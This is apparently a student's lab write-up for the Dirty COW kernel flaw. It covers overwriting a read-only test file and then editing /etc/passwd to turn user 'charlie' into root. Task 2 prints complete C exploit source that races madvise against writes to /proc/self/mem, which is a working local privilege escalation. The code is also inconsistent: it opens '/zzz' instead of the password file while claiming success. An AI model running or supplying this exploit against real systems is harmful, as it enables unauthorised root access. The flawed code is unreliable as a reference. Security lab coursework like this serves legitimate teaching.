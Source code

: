 

### Task 1: Modify a Dummy Read-Only file

**Create a dummy file:**

Created a file at `/` named `zzz`:
![](attachment/9e2cca676c88f5a27c7d7b0692141197.png)

Provided `644` permissions such that only root can have r/w access and others can only read this file.

- Confirmed that a regular user can't write to this file.
![](attachment/8fc8d64f78f9af9e93d89e4f095dcb7c.png)


**Launch the attack:**

After compiling the given code and running the executable, I can see the file content has been modified. i.e., `222222` is replaced with `******`.

![](attachment/72694f5b023fa9dbcb14ac2c276728d5.png)

---

### Task 2: Modify the Password File to Gain the Root Privilege

Created a new user named `charlie`.
![](attachment/cc3030fc187348406cb268aca022f836.png)

We can see the charlie's UID is set to `1001`


Modifying the charlie’s entry in `/etc/passwd`, from 1001 to 0000, turning charlie into a root account. 

My Code:

```c
#include <sys/mman.h>
#include <fcntl.h>
#include <pthread.h>
#include <sys/stat.h>
#include <string.h>
void *map;
void *writeThread(void *arg);
void *madviseThread(void *arg);
int main(int argc, char *argv[])
{
  pthread_t pth1,pth2;
  struct stat st;
  int file_size;
  // Open the target file in the read-only mode.
  int f=open("/zzz", O_RDONLY);
  // Map the file to COW memory using MAP_PRIVATE.
  fstat(f, &st);
  file_size = st.st_size;
  map=mmap(NULL, file_size, PROT_READ, MAP_PRIVATE, f, 0);
  // Find the position of the target area
  char *position = strstr(map, "charlie:x:1001");                        
  // We have to do the attack using two threads.
  pthread_create(&pth1, NULL, madviseThread, (void  *)file_size); 
  pthread_create(&pth2, NULL, writeThread, position);             
  // Wait for the threads to finish.
  pthread_join(pth1, NULL);
  pthread_join(pth2, NULL);
  return 0;
}
void *writeThread(void *arg)
{
  char *content= "charlie:x:0000";
  off_t offset = (off_t) arg;
  int f=open("/proc/self/mem", O_RDWR);
  while(1) {
    // Move the file pointer to the corresponding position.
    lseek(f, offset, SEEK_SET);
    // Write to the memory.
    write(f, content, strlen(content));
  }
}
void *madviseThread(void *arg)
{
  int file_size = (int) arg;
  while(1){
      madvise(map, file_size, MADV_DONTNEED);
  }
}
```


After compiling and running the executable, we can see that user `charlie` got access to root with the regular user permissions. 

![](attachment/71f75c3be81c5b2baf77fc60d68ad454.png)

`cat /etc/passwd`:

![](attachment/c61d2e67070f72b656f33c4c6400c35b.png)


---